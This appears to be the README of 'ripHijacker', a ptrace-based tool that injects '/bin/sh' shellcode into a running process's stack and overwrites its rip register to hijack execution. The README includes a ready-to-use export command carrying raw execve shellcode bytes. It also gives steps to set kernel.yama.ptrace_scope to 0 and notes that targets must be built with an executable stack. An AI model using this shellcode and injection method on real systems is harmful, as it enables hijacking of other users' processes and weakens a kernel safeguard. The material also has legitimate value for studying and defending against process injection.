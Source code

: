 # ripHijacker
                       
Usage: ./ripHijacker -p target_pid [-e environment_variable -n target_program_name]

-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid

..allow you to inject an hardcoded "/bin/sh" shellcode into the stack of the target and to overwrite its rip register with the address pointed by its rsp register.
-------------------------------------------------------------------------------------------------------------------------

./ripHijacker -p target_pid -e environment_variable -n target_program_name 

..allow you to overwrite the register rip of the target with the address of the environment variable (specified with -e option) in the target's stack.
-------------------------------------------------------------------------------------------------------------------------
We can load a simple shellcode in an environment variable with the command:

export A=$(python -c "print '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")

ripHijacker uses ptrace. "A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes", so we can change scope of ptrace with these commands:

sudo vim  /etc/sysctl.d/10-ptrace.conf

..and setting.. 

kernel.yama.ptrace_scope = 0

..after that we must load the new settings with:

sudo sysctl --system -a -p | grep  yama

Obviously the target program must be compiled with the "-z execstack" option.

Acknowledgment:

  Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
  conoscenza dell'utilità di ptrace.




